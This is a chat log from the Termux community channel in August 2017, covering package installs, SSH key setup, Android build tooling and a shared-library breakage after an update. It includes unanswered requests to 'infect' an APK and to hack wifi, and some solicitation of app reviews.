2017-08-13 23:07:14	rods-tab3	ohhhold on

2017-08-13 23:07:28	luna__	and gitter? i was talking about FOR Termux, to make it easyer to use

2017-08-13 23:07:42	luna__	and i would want to use the terminal

2017-08-13 23:08:51	gitter	(sdrausty) Learn CLI (COMMAND LINE INTERFACE). Forget the GUI...

2017-08-13 23:09:06	gitter	(sdrausty) Well you can't. It's Android.

2017-08-13 23:09:36	rods-tab3	https://termux.com/add-on-widget.html

2017-08-13 23:10:04	luna__	Is there a way i could install a UBUNTUapp into ti? i mean by downloading it?

2017-08-13 23:10:20	rods-tab3	its free - get that and termux api and termux styling from app store

2017-08-13 23:10:39	luna__	Like if i download the DEB file, can i install it?

2017-08-13 23:11:18	sdrausty	Try some of the scripts at https://github.com/sdrausty/buildAPKs/tree/master/scripts/build

2017-08-13 23:11:58	rods-tab3	which app ? termux has 669++ available

2017-08-13 23:12:13	sdrausty	GUI's galore in any APK on Termux.

2017-08-13 23:12:35	luna__	I mean like a package manager?

2017-08-13 23:12:57	sdrausty	685 packages that are available from https://sdrausty.github.io/pages/more

2017-08-13 23:14:58	sdrausty	https://www.google.com/search?q=command+line+interface

2017-08-13 23:16:28	luna__	well..

2017-08-13 23:17:26	sdrausty	https://www.google.com/search?q=command+line+interface+site%3Atldp.org

2017-08-13 23:18:47	sdrausty	Much better search results at https://duckduckgo.com/?q=command+line+interface+site%3Atldp.org&t=ha&ia=web

2017-08-13 23:19:13	luna__	i dont use duckduckgo search engine, i find it crap

2017-08-13 23:19:20	sdrausty	http://tldp.org/REF/VLC-User-Guide/cmdline.html Introduction...

2017-08-13 23:19:55	luna__	is there a way i can even build a GUI using Termux, for Termux?

2017-08-13 23:20:09	sdrausty	sorry you don't like alernstives luna_:

2017-08-13 23:20:36	luna__	i am willing to learn, just want to beable to build a GUI

2017-08-13 23:20:46	luna__	a basic one i dont mind

2017-08-13 23:20:58	sdrausty	https://sdrausty.github.io/buildAPKs/reallyEasilyBuildAndroidAPKsOnDevice more than one, over 400 at last count

2017-08-13 23:20:58	luna__	if i make it clunky at first, i can improve

2017-08-13 23:23:12	luna__	Oh, any good keyboards to use with Termux,

2017-08-13 23:23:16	luna__	?

2017-08-13 23:23:39	luna__	i hat ehaving to use HackerKeyboard and swap between my TouchPal and it

2017-08-13 23:24:42	sdrausty	use Gboard it great with https://termux.com/touch-keyboard.html

2017-08-13 23:25:56	luna__	does it provide feedback as an option when i type?

2017-08-13 23:29:50	luna__	as in does it give a tiny vibration when you tap abutton

2017-08-13 23:29:57	rods-tab3	I was expecting that using termux-dialog and termux-toast from API package together with widget would allow me to create useful actions and tiny apps without terminal running in foreground, however   ..........   Note that background tasks is now supported: Just create your shortcuts inside ~/.shortcuts/tasks.         https://play.google.com/store/apps/details?id=com.termux.widget

2017-08-13 23:36:39	luna__	oh, cansomeone tell me why icant get termux to run on an android emulator?

2017-08-13 23:38:17	live_the_dream	?

2017-08-13 23:39:32	luna__	i have an Android emulator, but when i try to install Termux, it says its not compatable, and when i try to install the APK it says "Trouble Parsing the package"

2017-08-13 23:44:38	live_the_dream	what android version?

2017-08-13 23:46:56	luna__	let me check the emulator

2017-08-13 23:47:23	luna__	4.4.4

2017-08-13 23:48:27	luna__	probably the reason?

2017-08-13 23:53:33	live_the_dream	yep

2017-08-13 23:53:41	live_the_dream	termux needs 5.0+

2017-08-13 23:53:55	luna__	working on getting it downloaded

2017-08-13 23:54:24	luna__	downloading 5.1 now with the emulator

2017-08-14 00:27:53	luna__	is there a way i can create a Runtime enviroment like Termux on Ubuntu? so i can learn on a PC?

2017-08-14 02:03:43	gitter	(aranwa3) hay amyone please help my termux sources.txt is deleted

2017-08-14 04:32:57	gitter	(fornwall) @aranwa3 did you loose the `$PREFIX/etc/apt/sources.list` file?

2017-08-14 04:33:22	gitter	(fornwall) @aranwa3 if so, you can add back the main repo with`echo "deb http://termux.net stable main" > $PREFIX/etc/apt/sources.list`

2017-08-14 07:12:45	gitter	(Ashish882) Help me to infect any apk

2017-08-14 12:09:18	gitter	(Ashish882) SQL for termux

2017-08-14 12:10:53	bunterxx	https://play.google.com/store/apps/details?id=com.letigre.iconic

2017-08-14 12:10:56	bunterxx	enjoy

2017-08-14 12:11:05	bunterxx	this I did on termux

2017-08-14 12:11:18	bunterxx	writing plus testing

2017-08-14 12:11:52	bunterxx	would be happy if you could leave ma 5star rating and a good review!:)

2017-08-14 12:13:43	gitter	(Auxilus) Nice!

2017-08-14 12:14:06	gitter	(Auxilus) How you did testing btw?

2017-08-14 12:44:34	gitter	(Ashish882) OK

2017-08-14 13:00:42	sdrausty	bunterxx: Where is the source for your drumpad?

2017-08-14 13:34:05	gitter	(suryapoo) Is Go language available for termux?

2017-08-14 14:04:30	gitter	(vishalbiswas) `apt install golang`

2017-08-14 14:08:32	gitter	(suryapoo) Gr888!!!!

2017-08-14 14:09:10	gitter	(suryapoo) Is it stable...like C and other languages that termux supports?

2017-08-14 14:17:10	frumpylava	@suryapoo: yes.

2017-08-14 14:17:56	gitter	(suryapoo) Gr88888!!! Thanks peeps!

2017-08-14 16:29:15	sdrausty	How can you find out what is available at https://dl.google.com/android/repository/

2017-08-14 16:30:19	sdrausty	When I use Chrome it states, "404. That’s an error.

2017-08-14 16:30:19	sdrausty	That’s all we know.

2017-08-14 16:31:26	sdrausty	https://dl.google.com/android/repository/tools_r25.2.3-linux.zip fetches *linux.zip in Chome as it should.

2017-08-14 16:31:48	sdrausty	What else is in https://dl.google.com/android/repository/ Anyone?

2017-08-14 17:03:06	rods-tab3	404  then just dl.google.com goes to chrome

2017-08-14 17:17:09	sdrausty	rods-tab3: When I use ftp I can get a directory listing. How can I get a directory listing for https://dl.google.com/android/ ?

2017-08-14 17:20:58	sdrausty	ftp://ftp.gnu.org has a beautiful listing of its' contents, not 404!

2017-08-14 17:32:58	rods-tab3	ftp uses a different port number than https

2017-08-14 17:34:04	gitter	(sdrausty) That is correct 23 ftp 80 http

2017-08-14 17:34:43	gitter	(sdrausty) Where is the listing (table of contents) for

2017-08-14 17:34:56	gitter	(sdrausty) https://dl.google.com/android/ ?

2017-08-15 00:27:26	live_the_dream	hmm  adding shebang for debscripts in ./build-package.sh or make the build.sh do it?

2017-08-15 00:41:04	live_the_dream	make build.sh do it

2017-08-15 02:22:24	frumpylava	fornwall: Why hasn't termux-styling been updated on f-droid?

2017-08-15 04:33:49	Patruska[m]	frumpylava: the same old problem with for droid

2017-08-15 04:37:16	frumpylava	Patruska[m]: hmm.. yeah... found the build log. Can't this be fixed?

2017-08-15 04:43:32	Patruska[m]	frumpylava: you should write to the developer, but i think there are worse cases, lo l give a look at "ring" build log on Friday droid and compare the latest flash droid version and the play store one . Maybe you can complain about

2017-08-15 04:44:04	Patruska[m]	frumpylava: you should write to the developer, but i think there are worse cases, lo l give a look at "ring" build log on Friday droid and compare the latest flash droid version and the play store one . Maybe you can complain about termux

2017-08-15 05:42:08	gitter	(Ashish882) Hi

2017-08-15 05:42:23	gitter	(Ashish882) How to install SQL in termux

2017-08-15 07:44:02	gitter	(suryapoo) @Hackz...apt install mariadb

2017-08-15 07:44:14	gitter	(suryapoo) Termux has mariab not mysql

2017-08-15 07:44:25	gitter	(suryapoo) I checked ur blog dude

2017-08-15 07:44:34	gitter	(suryapoo) its "badiya"

2017-08-15 07:44:47	gitter	(suryapoo) Guys...clojure support for termux?

2017-08-15 07:45:03	gitter	(suryapoo) Since we dont have java..we dont have clojure ??

2017-08-15 08:36:49	sdrausty	When I use ftp I can get a directory listing. How can I get a directory listing for https://dl.google.com/android/ ?

2017-08-15 09:03:57	gitter	(Ashish882) OK thanks @suryapoo

2017-08-15 09:04:14	gitter	(Ashish882) But who's blo

2017-08-15 09:04:23	gitter	(Ashish882) But who's blog

2017-08-15 09:05:25	ulno[m]	Anybody using ranger as file manager in termux - mouse and touch doesn't work on it (and is very slow via ssh) - ncurses/slang problem - mouse/touch works very well on mc?

2017-08-15 09:10:33	gitter	(suryapoo) @Ashish882 ..u have a blog na

2017-08-15 09:11:02	gitter	(Ashish882) Which

2017-08-15 09:22:48	gitter	(suryapoo) There was a site ..in which the post about build apks on android with termux with the username Ashish882..so i thought its urs

2017-08-15 09:22:50	gitter	(suryapoo) :)

2017-08-15 09:23:42	frumpylava	@suryapoo don't you mean this: https://sdrausty.github.io/buildAPKs/

2017-08-15 09:33:19	sdrausty	When I use ftp I can get a directory listing. How can I get a directory listing for https://dl.google.com/android/ ?

2017-08-15 09:34:21	frumpylava	sdrausty: You can't.

2017-08-15 09:36:26	sdrausty	flumpylava: You can't?

2017-08-15 09:37:35	sdrausty	That's not what I was taught at computer classes. Why can't you download a listing for https://dl.google.com/android/ ?

2017-08-15 09:38:17	frumpylava	sdrausty: Because it most likely isn't a real directory on some server.

2017-08-15 09:39:08	frumpylava	sdrausty: Unless a webserver is very specifically configured to list the directory, it won't.

2017-08-15 09:39:10	sdrausty	There zhould be a file somewhere like http://termux.net/dists/stable/main/binary-all/Packages.xz

2017-08-15 09:40:32	sdrausty	list (table of contents) for android repository at google it is open source after all

2017-08-15 09:44:50	sdrausty	http://ftp.nz.debian.org/debian/ls-lR.gz where is something like this at https://dl.google.com/android/

2017-08-15 09:48:22	frumpylava	sdrausty: I don't know about that. There could be a file like that (altough I doubt it). All I know is that it's not possible to list a directory over http the same way it is with ftp.

2017-08-15 09:48:38	frumpylava	what are you even looking for?

2017-08-15 09:50:02	sdrausty	the file list for https://dl.google.com/android/

2017-08-15 09:50:15	sdrausty	the listing for https://dl.google.com/android/

2017-08-15 09:50:52	frumpylava	sdrausty: yeah, but why?

2017-08-15 09:51:48	sdrausty	frumpylava: termux-app builds on device, but it doesn't build right

2017-08-15 09:52:38	sdrausty	i want the listing of SDKs NDKs and whatever else can be downloaded from https://dl.google.com/android/

2017-08-15 09:54:46	sdrausty	Finding and installing dependantcies is a stumbling block in developing gradle builds https://github.com/sdrausty/buildAPKs/issues/3 

2017-08-15 09:56:15	sdrausty	Where is the list of files (*.jar && *.arr) to build Android APKs?

2017-08-15 09:57:11	sdrausty	at https://dl.google.com/android/ this is open source therefore it must be there somewhere. Where is it?

2017-08-15 09:58:31	frumpylava	sdrausty: Just because it's open source doesn't mean it can't be confusing and obtuse.

2017-08-15 10:00:34	sdrausty	lol

2017-08-15 10:02:20	sdrausty	That is why I am asking 

2017-08-15 10:04:27	sdrausty	flumpylava: Are you using weechat in Termux?

2017-08-15 10:05:53	sdrausty	Anyone using weechat in Termux here?

2017-08-15 10:07:20	sdrausty	The reason I am asking is, "What do you think about the Flickering now that the garbage is gone?"

2017-08-15 10:07:44	sdrausty	Garbage isn't gone; Argg.

2017-08-15 10:08:04	frumpylava	sdrausty: No. My weechat in termux doesn't work, as it crashes my device. I'm using weechat on a remote server, where I can't see any flickering.

2017-08-15 10:08:17	sdrausty	tnx

2017-08-15 12:43:47	schotter	hi, i wanted to create some thumbnails with convert (imagemagick) but it segfaults :/ Can anyone verify this?

2017-08-15 12:44:41	gitter	(Ashish882) Hi

2017-08-15 14:08:49	gitter	(cocodevienne) Uh can someone help me here?

2017-08-15 14:09:32	schotter	perhaps

2017-08-15 14:14:23	gitter	(cocodevienne) Ok so Python is a powerful tool and all I am saying is that Termux got me to where I am today. And because I finally figured out how to do it, I built an Android app using Python. Now I know Termux has a lot of downloads and I would really love to have the same on my app. Now I've helped everyone her in the community who asked as best I could. All I am asking is whether somebody could help me maybe promote the app or tell me w

2017-08-15 14:14:23	gitter	downloads and maybe download my app and leave a good review for it and maybe give it 5 stars? I know I shouldn't be doing this but I am getting abit sadbecause I put in so much effort and nobody seems to care!:(

2017-08-15 14:15:04	gitter	(cocodevienne) I really hope you all enjoy it!

2017-08-15 14:15:07	gitter	(cocodevienne) https://play.google.com/store/apps/details?id=com.letigre.iconic

2017-08-15 14:15:21	gitter	(cocodevienne) If yo have any questions just ask.

2017-08-15 14:15:44	gitter	(cocodevienne) Again sorry for the crosspromo but i do not know where else to go.

2017-08-15 14:15:58	gitter	(cocodevienne) How did you get so many downloads?

2017-08-15 14:16:02	gitter	(cocodevienne) @fornwall

2017-08-15 14:27:04	sdrausty	@cocodevienne Where is the source for you app?

2017-08-15 14:42:27	rods-tab3	whats a drum pad ?

2017-08-15 16:35:07	Church-	Any chance of getting salt-stack running? The master node that is.

2017-08-15 16:58:26	gitter	(cocodevienne) its free but closed source

2017-08-15 16:58:32	gitter	(cocodevienne) @sdrausty

2017-08-15 17:00:09	gitter	(cocodevienne) Its like one of those pads with buttons where you can make a beat when you press a bunch of buttons in a certain combination

2017-08-15 17:00:18	gitter	(cocodevienne) @rods-tab3

2017-08-15 17:42:00	sdrausty	@covodevinne I'm curious; Why did you choose the closed source model?

2017-08-15 17:44:33	gitter	(cocodevienne) Because I am planning to make apps and sell them!:) I thought I'd see how it would go and then only put out something paid. Wow this is really getting me down!:( Do you have any advice for me? I'll help you gladly making APKs with Python if you want!!:) @sdrausty

2017-08-15 17:51:44	rods-tab3	''the road to profits is fraught with major disappointments''

2017-08-15 17:54:17	gitter	(cocodevienne) I know what you mean but I dunno I'm kind used to stuff not getting a ton of downloads that I put a lot if work into. @rods-tab3 That's why this undertone of disappoinment.

2017-08-15 17:55:42	gitter	(cocodevienne) I am really grateful to anyone who downloads it and gives me 5 stars!! If you really have any questions, I'll answer it even if it may seem silly to you but hey we all know that there is no such thing as a stupid question!;) Keep in mind that I am also kinda new to this whole business.

2017-08-15 17:58:50	gitter	(sdrausty) https://www.google.com/search?q=donation+for+mark+harman open source model 10000x$2

2017-08-15 17:59:04	gitter	(sdrausty) @present

2017-08-15 17:59:53	gitter	(sdrausty) Not to mention Termux add-ons @$2 too.

2017-08-15 18:01:20	gitter	(sdrausty) *10000 5000

2017-08-15 18:05:45	gitter	(cocodevienne) Yeah but same thing nobody would buy my "Donation App" if you will just because I make the source of my apps publicly available, or?

2017-08-15 18:05:57	gitter	(cocodevienne) I mean I might be completely wrong of course...

2017-08-15 18:06:19	gitter	(cocodevienne) Like how will people know about it?🤔

2017-08-15 18:06:26	gitter	(cocodevienne) That is to say the donation app?

2017-08-15 18:06:31	gitter	(cocodevienne) @sdrausty

2017-08-15 18:06:47	gitter	(cocodevienne) Still, thanks for the impulse, I shall give it some thought!

2017-08-15 18:07:10	gitter	(cocodevienne) Honestly, this is what I like about his community, everybody is being so nice.

2017-08-15 18:07:24	gitter	(sdrausty) Bennett github.com - open-keychain/open-keychain is a very interesting app, 30% to donate through Google! Wow.

2017-08-15 18:07:57	gitter	(sdrausty) https://github.com/open-keychain

2017-08-15 18:08:02	gitter	(cocodevienne) Ah yes btw, I am considering restarting my DEB repo soon. I want to streamline everything I make as much as possible!

2017-08-15 18:08:10	rods-tab3	iirc goolag takes 30% of every purchase re app store

2017-08-15 18:08:30	gitter	(cocodevienne) @vishalbiswas @Auxilus @fornwall

2017-08-15 18:08:41	gitter	(sdrausty) https://github.com/open-keychain

2017-08-15 18:08:55	gitter	(cocodevienne) Will be posting exact `sources.list` code once its ready.

2017-08-15 18:09:09	gitter	(cocodevienne) Is that the src? @sdrausty

2017-08-15 18:09:39	gitter	(cocodevienne) I'm not to sure I knkw what you mean @sdrausty  @rods-tab3

2017-08-15 18:09:44	gitter	(cocodevienne) *know

2017-08-15 18:10:37	rods-tab3	google==goolag since they no longer tolerate free speech

2017-08-15 18:10:49	sdrausty	rods-tab3: This might not be the case in Open Camera since there is a purchased app from the Playstore (that should not be uninstalled within 15 min)

2017-08-15 18:11:58	gitter	(cocodevienne) What?!

2017-08-15 18:12:04	gitter	(cocodevienne) 30%?!!

2017-08-15 18:12:12	sdrausty	nor provide directory listings

2017-08-15 18:12:23	rods-tab3	i think i read that here

2017-08-15 18:12:41	sdrausty	be glad it'a not 60% @cocodevienne

2017-08-15 18:13:00	gitter	(cocodevienne) Yeah but then again, they DO provide a service of sorts.🤔

2017-08-15 18:13:14	gitter	(cocodevienne) Oh I am, I am.

2017-08-15 18:13:27	sdrausty	simple issue, `ls`

2017-08-15 18:13:30	gitter	(cocodevienne) Take MC for instance...

2017-08-15 18:13:41	gitter	(cocodevienne) they must be filthy rich by now.

2017-08-15 18:13:44	gitter	(cocodevienne) @sdrausty

2017-08-15 18:14:03	sdrausty	but not at https://dl.google.com/android/

2017-08-15 18:14:17	sdrausty	404. That’s an error.

2017-08-15 18:14:17	sdrausty	That’s all we know.

2017-08-15 18:15:17	gitter	(cocodevienne) ?

2017-08-15 18:16:21	sdrausty	Where is the list of files (.jar && .arr) to build Android APKs?

2017-08-15 18:16:46	sdrausty	I want the listing of SDKs NDKs and whatever else can be downloaded from https://dl.google.com/android/

2017-08-15 18:16:58	sdrausty	Where is it?

2017-08-15 18:17:44	sdrausty	Well, it's in https://dl.google.com/android/repository/repository-12.xml of sorts...

2017-08-15 18:19:19	sdrausty	And in https://dl-ssl.google.com/android/repository/addons_list-3.xml MAYBE

2017-08-15 18:20:18	sdrausty	Where the hell is the table of contents (listing) for https://dl.google.com/android/ ? 

2017-08-15 18:21:21	gitter	(cocodevienne) no I think its something like

2017-08-15 18:21:43	gitter	(cocodevienne) http://dl.google.com/android/tools/sdk

2017-08-15 18:21:49	gitter	(cocodevienne) something like that.

2017-08-15 18:23:33	gitter	(sdrausty) 404. That’s an error.

2017-08-15 18:23:33	gitter	(sdrausty)

2017-08-15 18:23:33	gitter	(sdrausty) That’s all we know

2017-08-15 18:23:43	gitter	(sdrausty) 404

2017-08-15 18:24:59	gitter	(sdrausty) Listing, as in http://termux.net/dists/stable/main/binary-all/Packages.xz

2017-08-15 18:25:58	gitter	(sdrausty) Listing, as in http://ftp.be.debian.org/debian/ls-lR.gz

2017-08-15 18:26:27	gitter	(sdrausty) Listing, as in http://ftp.be.debian.org/debian/

2017-08-15 18:26:36	gitter	(sdrausty) FILE LISTING

2017-08-15 18:27:20	gitter	(sdrausty) I keep hearing over and over, "Why is this so difficult?"

2017-08-15 18:27:38	gitter	(cocodevienne) https://dl.google.com/dl/android/studio/ide-zips/2.3.3.0/android-studio-ide-162.4069837-linux.zip

2017-08-15 18:27:42	gitter	(sdrausty) With no listing it will be very very difficult.

2017-08-15 18:27:45	gitter	(cocodevienne) for instance

2017-08-15 18:28:45	gitter	(sdrausty) That is a long long download @cocodevienne not a listing.

2017-08-15 18:28:58	gitter	(cocodevienne) Anyways Immq sleep tomorrow, got a race coming up w/ my dad so everybody sleep well and good night! @sdrausty @rods-tab3

2017-08-15 18:29:11	gitter	(cocodevienne) Ya idk, thought maybe that would help.

2017-08-15 18:29:18	gitter	(cocodevienne) I think google doesnt allow it.

2017-08-15 18:29:27	gitter	(sdrausty) Good 🌃 night @cocodevienne

2017-08-15 18:29:27	gitter	(cocodevienne) for whatever reason.

2017-08-15 18:29:47	gitter	(cocodevienne) Thx.

2017-08-15 19:13:55	damnssh	hi guys can someone help me with openssh?

2017-08-15 19:14:26	damnssh	cant connect to putty using this tutorial https://oliverse.ch/tech/2015/11/06/run-an-ssh-server-on-your-android-with-termux.html

2017-08-15 19:19:57	damnssh	hi?

2017-08-15 19:26:47	gitter	(Grimler91) Hi,

2017-08-15 19:27:10	gitter	(Grimler91) What did you run and what was the error?

2017-08-15 19:29:03	damnssh	my problem is that i cant connect to android using putty

2017-08-15 19:29:27	damnssh	no supported authentication methods available

2017-08-15 19:30:37	damnssh	i mean , it does connect, but  when i press enter to log in (blank)  and it gives me no supported authentication methods available (server sent publickey ,keyboard-interactive)

2017-08-15 19:32:28	gitter	(Grimler91) Ah yes, you need to copy your id_rsa.pub file from putty computer and add it to ~/.ssh/authorized_hosts

2017-08-15 19:32:46	gitter	(Grimler91) Termux doesn't support password authentication

2017-08-15 19:33:34	gitter	(sdrausty) https://termux.com/ssh.html

2017-08-15 19:34:25	damnssh	u mean i need to generate the key from putty? download putty gen

2017-08-15 19:38:07	BrainDamage	yes

2017-08-15 19:41:25	damnssh	damn i knew i read something wrong , mybad sorry for wasting ur time

2017-08-15 21:26:46	sdrausty	Use ssh-keygen to generate a new one if desired.

2017-08-15 22:29:48	gitter	(Auxilus) Ty @cocodevienne, send me repo link

2017-08-15 23:52:07	AmR|EiSa	Did termux have port for dmidecode ?

2017-08-16 02:26:04	kr1shna	does the apps which explicit

2017-08-16 02:27:09	kr1shna	.... depend on gtk3 cannot be installed on termux ?

2017-08-16 06:42:09	gitter	(masterkorp) Hello everyone

2017-08-16 08:27:03	gitter	(suryapoo) Cant connect with mysqli_connect to Mariadb..guys help

2017-08-16 08:55:16	deepakbndeepu	Need links to vim-python pkg documentation

2017-08-16 09:54:05	gitter	(masterkorp) Guys, which version of grep its packed on termux? I can't seem to be able to user grep --perl-regexp

2017-08-16 09:55:18	frumpylava	@masterkorp Busybox grep is default. Install Gnu grep with `pkg install grep`

2017-08-16 09:56:49	gitter	(cocodevienne) How about running `man vim-python`?

2017-08-16 09:57:41	gitter	(cocodevienne) If you haven't done `apt update && apt install man`, then you should before running the above command.

2017-08-16 09:57:46	gitter	(cocodevienne) @deepakbndeepu

2017-08-16 09:59:33	gitter	(masterkorp) frumpylava: thank you

2017-08-16 10:02:17	deepakbndeepu	gitter: nope, there is no man page for that 😞

2017-08-16 10:03:21	gitter	(cocodevienne) Then I'd suggest you google it!:)

2017-08-16 10:04:21	gitter	(cocodevienne) Search for something like `Vim-Python docs`.

2017-08-16 10:04:26	gitter	(cocodevienne) @deepakbndeepu

2017-08-16 10:05:21	deepakbndeepu	gitter: done that too 😞

2017-08-16 10:05:33	gitter	(cocodevienne) @frumpylava Where's the video of your talk btw? Would have loved to come, I just had end-of-year exams.

2017-08-16 10:06:13	frumpylava	@cocodevienne https://media.ccc.de/v/zeteco-59-termux_als_betriebssystem

2017-08-16 10:06:29	frumpylava	@cocodevienne but it isn't subtitled yet.

2017-08-16 10:07:39	sdrausty	frumpylava: ffmpeg has a subtitle option in Termux

2017-08-16 10:08:44	gitter	(cocodevienne) Then I am sorry, I do not know! Maybe @vishalbiswas can help? @deepakbndeepu

2017-08-16 10:09:08	gitter	(cocodevienne) That's no problem, after all I am from Austria!:)

2017-08-16 10:09:19	gitter	(cocodevienne) @frumpylava

2017-08-16 10:09:29	sdrausty	man ffmpeg

2017-08-16 10:10:14	deepakbndeepu	gitter: ok

2017-08-16 10:14:44	sdrausty	frumpylava: https://t.co/dBjttLxCgr was made with ffmpeg in Termux on device.

2017-08-16 10:16:17	endre	nice

2017-08-16 10:16:20	frumpylava	@sdrausty are you currently in antarctica?

2017-08-16 10:17:43	sdrausty	frumpylava: The movie was made from webcam there https://www.usap.gov/videoclipsandmaps/SouthPoleWebcam/Pal00100.jpg on a smartphone

2017-08-16 10:18:35	sdrausty	frumpylava: no I am not in Antarctica lol

2017-08-16 10:20:18	gitter	(cocodevienne) Ah yes btw

2017-08-16 10:20:22	sdrausty	https://www.usap.gov/videoclipsandmaps/spwebcam.cfm

2017-08-16 10:20:23	gitter	(cocodevienne) @sdrausty

2017-08-16 10:20:32	sdrausty	yes

2017-08-16 10:20:34	gitter	(cocodevienne) I made like a donation app;)

2017-08-16 10:20:40	gitter	(cocodevienne) For 350 bucks

2017-08-16 10:20:42	sdrausty	great!

2017-08-16 10:20:46	sdrausty	wow

2017-08-16 10:21:02	gitter	(cocodevienne) one of the most expensive in the stor

2017-08-16 10:21:04	gitter	(cocodevienne) *store

2017-08-16 10:21:08	sdrausty	is it at play

2017-08-16 10:21:25	sdrausty	what is the link?

2017-08-16 10:21:31	gitter	(cocodevienne) I haven't released it officially. But because you were talking about it.

2017-08-16 10:21:33	gitter	(cocodevienne) hang on

2017-08-16 10:22:00	gitter	(cocodevienne)  https://play.google.com/store/apps/details?id=com.voxbyletigre.voxclock

2017-08-16 10:22:26	gitter	(cocodevienne) I've decided to make a mix between oss and commercial.

2017-08-16 10:22:49	gitter	(cocodevienne) @sdrausty

2017-08-16 10:24:53	sdrausty	wayy *way

2017-08-16 10:25:12	sdrausty	good luck

2017-08-16 10:25:23	frumpylava	@cocodevienne Why do you need storage permissions for a simple clock app?

2017-08-16 10:25:35	gitter	(cocodevienne) Default for kivy...

2017-08-16 10:25:38	gitter	(cocodevienne) No idea.

2017-08-16 10:26:10	gitter	(cocodevienne)  Did you download it???

2017-08-16 10:26:15	gitter	(cocodevienne) @sdrausty

2017-08-16 10:26:19	sdrausty	no

2017-08-16 10:27:26	sdrausty	What is the most expensive app on play?

2017-08-16 10:32:53	sdrausty	I want the listing of SDKs NDKs and whatever else can be downloaded from https://dl.google.com/android/

2017-08-16 10:34:21	sdrausty	Where is it? I want it for https://github.com/sdrausty/buildAPKs/issues/3 Gradle Builds Usually Fail Using buildAPKs.

2017-08-16 10:36:02	sdrausty	@cocodeveinne Non of the clocks at https://github.com/sdrausty/buildAPKsClocks require advanced permissions.

2017-08-16 10:43:20	sdrausty	cd && git clone https://github.com/sdrausty/buildAPKs

2017-08-16 10:43:21	sdrausty	./buildAPKs/scripts/build/buildClocks.sh

2017-08-16 11:07:40	sdrausty	Non *None

2017-08-16 11:12:13	gitter	(cocodevienne) I'm not sure actually! I just used buildozer android release and that was it.

2017-08-16 11:12:27	gitter	(cocodevienne) You'd have to check out the source of Buildozer I expect.

2017-08-16 11:12:37	gitter	(cocodevienne) Sorry!:( @sdrausty

2017-08-16 11:13:04	u0_a93	ltnx

2017-08-16 11:26:49	sdrausty	cocodevienne: link to buildozer please. 

2017-08-16 11:37:08	gitter	(cocodevienne) sufe

2017-08-16 11:37:10	gitter	(cocodevienne) *sure

2017-08-16 11:37:20	gitter	(cocodevienne) http://github.com/kivy/buildozer

2017-08-16 11:38:47	sdrausty	tnx

2017-08-16 11:54:01	gitter	(cocodevienne) Any questions, just ask.

2017-08-16 11:56:30	gitter	(cocodevienne) I think the broad gist is this: Buildozer analyzes Python code(imports and so forth) -> converts it to C code using Cython and finally -> compiles C code into Java code or `.dex` files using the SDK and NDK. Buildozer is just a mask, if you will for Python for Android and any options or preferences you want to set are done via a `buildozer.spec` file that is basically just CLI optiona for Python for Android.

2017-08-16 11:56:32	gitter	(cocodevienne) Got it?

2017-08-16 11:56:38	gitter	(cocodevienne) @sdrausty

2017-08-16 11:56:57	gitter	(cocodevienne) *options

2017-08-16 11:57:24	gitter	(cocodevienne) DO NOT under any circumstances try to use buildozer -v android release

2017-08-16 11:57:29	gitter	(cocodevienne) !!

2017-08-16 12:18:37	gitter	(sdrausty) Why?

2017-08-16 13:06:37	gitter	(suryapoo) Php has support for MySQL in termux??

2017-08-16 13:08:23	gitter	(vishalbiswas) @suryapoo not yet

2017-08-16 13:08:57	gitter	(vishalbiswas) https://github.com/termux/termux-packages/pull/1025

2017-08-16 13:11:53	gitter	(cocodevienne) Because its difficult af. I had to struggle and find a workaround.

2017-08-16 13:12:02	gitter	(cocodevienne) I did eventually.

2017-08-16 13:13:37	gitter	(cocodevienne) You would need to generate a keystore and the fiddle around with some Env Vars and then do it all in a certain chronological order in order for the compilation to be successful. I made it work somehow. Don't ask how it all works with the keystores and the Env Vars, I really do not know. @sdrausty

2017-08-16 13:19:11	gitter	(suryapoo) Thanks... @vishalbiswas

2017-08-16 13:27:06	gitter	(cocodevienne) *then

2017-08-16 13:30:54	sdrausty	cocodevienne: tnx

2017-08-16 13:31:45	gitter	(cocodevienne) No problem!

2017-08-16 13:32:32	gitter	(cocodevienne) If you want instructions for release builds, first build a debug APK and DO NOT delete the `.buildozer` folder!!

2017-08-16 13:33:00	gitter	(cocodevienne) And confirm that the debug build works as it should.

2017-08-16 13:33:01	gitter	(cocodevienne) @sdrausty

2017-08-16 13:33:02	gitter	(cocodevienne) hang on

2017-08-16 20:49:49	Church-	Any chance for a port of rtv?

2017-08-16 20:50:01	Church-	Hmm. Might be able to do this myself, it is just python.

2017-08-16 21:42:22	live_the_dream	Church-: pip install rtv

2017-08-16 21:55:34	Church-	...

2017-08-16 21:55:39	Church-	I'm a moron at times.

2017-08-16 22:02:28	live_the_dream	everyone is

2017-08-16 22:03:27	live_the_dream	for instance it appears recent updates broke python because of libandroid-support update

2017-08-16 22:04:00	live_the_dream	no libintl.so ..

2017-08-16 22:11:32	live_the_dream	@fornwall everything linked to libintl,so is now not working.

2017-08-17 00:07:30	gitter	(Ashish882) Hi

2017-08-17 00:08:11	gitter	(Ashish882) How to hack wifi with termux is it possible to hack WiFi with termux plz.reply

2017-08-17 00:18:20	gitter	(Ashish882) With airmon-ng

2017-08-17 00:31:49	live_the_dream	no

2017-08-17 00:31:51	live_the_dream	ks

2017-08-17 00:32:05	live_the_dream	need root + needs specific drivera

2017-08-17 00:34:38	gitter	(Ashish882) How

2017-08-17 01:20:12	live_the_dream	frumpylava: wake up

2017-08-17 01:22:50	frumpylava	live_the_dream: what?

2017-08-17 01:23:18	live_the_dream	is ajything that links to libintl broken?

2017-08-17 01:23:54	frumpylava	Seems so. Python is, at least.

2017-08-17 01:25:13	frumpylava	What else would link to it?

2017-08-17 01:25:30	live_the_dream	neovim gnutls

2017-08-17 01:25:33	live_the_dream	elfutils

2017-08-17 01:26:00	frumpylava	live_the_dream: oh yeah. also broken.

2017-08-17 01:26:21	live_the_dream	binutils >

2017-08-17 01:26:33	live_the_dream	no

2017-08-17 01:28:44	live_the_dream	and sharutilsu

2017-08-17 01:30:07	live_the_dream	so elfutils neovim python python2 and libgnutls

2017-08-17 01:33:57	frumpylava	python2 works for me.

2017-08-17 01:35:23	live_the_dream	ok

2017-08-17 01:35:42	frumpylava	ffmpeg is also broken

2017-08-17 01:35:44	gitter	(marvin-littlewood) @fornwall - same here: after latest update to libandroid-support & dev - emacs reports: CANNOT LINK EXECUTABLE DEPENDENCIES: library "libintl.so" not found

2017-08-17 01:38:41	live_the_dream	yeah emacs doesn't link against libintl.so directtly  but it might need those functions that are now inlined..

